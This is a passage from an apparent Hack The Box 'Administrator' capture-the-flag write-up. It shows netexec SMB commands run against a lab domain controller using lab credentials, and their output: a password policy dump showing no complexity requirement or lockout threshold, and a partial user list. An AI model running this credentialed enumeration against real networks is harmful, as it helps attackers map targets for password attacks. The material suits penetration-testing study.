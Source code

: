 {% highlight shell %}
exegol-liemek administrator # netexec smb 10.10.11.42 -u guest -p ''             
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.42     445    DC               [-] administrator.htb\guest: STATUS_ACCOUNT_DISABLED
{% endhighlight %}

We can enumerate <mark>SMB</mark> using <mark>Olivia</mark>'s credentials.

{% highlight shell %}
exegol-liemek administrator # netexec smb 10.10.11.42 -u olivia -p ichliebedich                                   
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.42     445    DC               [+] administrator.htb\olivia:ichliebedich
{% endhighlight %}

#### Password Policy

We retrieve the password policy, which reveals significant security concerns.

{% highlight shell %}
exegol-liemek administrator # netexec smb 10.10.11.42 -u olivia -p ichliebedich --pass-pol
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.42     445    DC               [+] administrator.htb\olivia:ichliebedich 
SMB         10.10.11.42     445    DC               [+] Dumping password info for domain: ADMINISTRATOR
SMB         10.10.11.42     445    DC               Minimum password length: 7
SMB         10.10.11.42     445    DC               Password history length: 24
SMB         10.10.11.42     445    DC               Maximum password age: 41 days 23 hours 53 minutes 
SMB         10.10.11.42     445    DC               
SMB         10.10.11.42     445    DC               Password Complexity Flags: 000000
SMB         10.10.11.42     445    DC                   Domain Refuse Password Change: 0
SMB         10.10.11.42     445    DC                   Domain Password Store Cleartext: 0
SMB         10.10.11.42     445    DC                   Domain Password Lockout Admins: 0
SMB         10.10.11.42     445    DC                   Domain Password No Clear Change: 0
SMB         10.10.11.42     445    DC                   Domain Password No Anon Change: 0
SMB         10.10.11.42     445    DC                   Domain Password Complex: 0
SMB         10.10.11.42     445    DC               
SMB         10.10.11.42     445    DC               Minimum password age: 1 day 4 minutes 
SMB         10.10.11.42     445    DC               Reset Account Lockout Counter: 30 minutes 
SMB         10.10.11.42     445    DC               Locked Account Duration: 30 minutes 
SMB         10.10.11.42     445    DC               Account Lockout Threshold: None
SMB         10.10.11.42     445    DC               Forced Log off Time: Not Set
{% endhighlight %}

#### Users

Collecting usernames to create a username list.

{% highlight shell %}
exegol-liemek administrator # netexec smb 10.10.11.42 -u olivia -p ichliebedich --users 
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.42     445    DC               [+] administrator.htb\olivia:ichliebedich 
SMB         10.10.11.42     445    DC               -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.10.11.42     445    DC               Administrator                 2024-10-22 18:59:36 0       Built-in account for administering the computer/domain 
SMB         10.10.11.42     445    DC               Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.10.11.42     445    DC               krbtgt                        2024-10-04 19:53:28 0       Key Distribution Center Service Account 